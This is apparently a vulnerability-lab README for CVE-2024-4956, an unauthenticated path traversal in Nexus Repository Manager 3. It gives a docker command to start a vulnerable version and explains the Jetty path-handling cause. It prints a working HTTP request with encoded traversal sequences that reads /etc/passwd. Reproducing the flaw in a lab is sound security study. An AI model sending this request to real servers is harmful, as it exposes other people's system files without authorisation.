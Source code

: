 # Nexus Repository Manager 3 Unauthenticated Path Traversal (CVE-2024-4956)

[中文版本(Chinese version)](README.zh-cn.md)

Nexus Repository Manager is a repository manager that organizes, stores and distributes artifacts needed for development.

A path traversal vulnerability has been discovered in Nexus Repository 3 before version 3.68.1, the vulnerability allows for an attacker to craft a URL to return any file as a download, including system files outside of Nexus Repository application scope, without any authentication.

References:

- <https://support.sonatype.com/hc/en-us/articles/29416509323923-CVE-2024-4956-Nexus-Repository-3-Path-Traversal-2024-05-16>

## Vulnerable environment

Execute following command to start a Nexus Repository Manager version 3.68.0:

```
docker compose up -d
```

After the server is started, browse `http://your-ip:8081` to see the home page of Nexus.

## Exploit

Just like SpringMVC CVE-2018-1271 from Orange Tsai's [share](https://i.blackhat.com/us-18/Wed-August-8/us-18-Orange-Tsai-Breaking-Parser-Logic-Take-Your-Path-Normalization-Off-And-Pop-0days-Out-2.pdf), Jetty's `URIUtil.canonicalPath()` also treats the empty string as a directory which is the root case of this vulnerability:

![](1.png)

Simply send following request to reproduce the issue:

```
GET /%2F%2F%2F%2F%2F%2F%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd HTTP/1.1
Host: localhost:8081
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.6045.159 Safari/537.36
Connection: close
Cache-Control: max-age=0


```

As you can see, `/etc/passwd` has been exposed directly:

![](2.png)
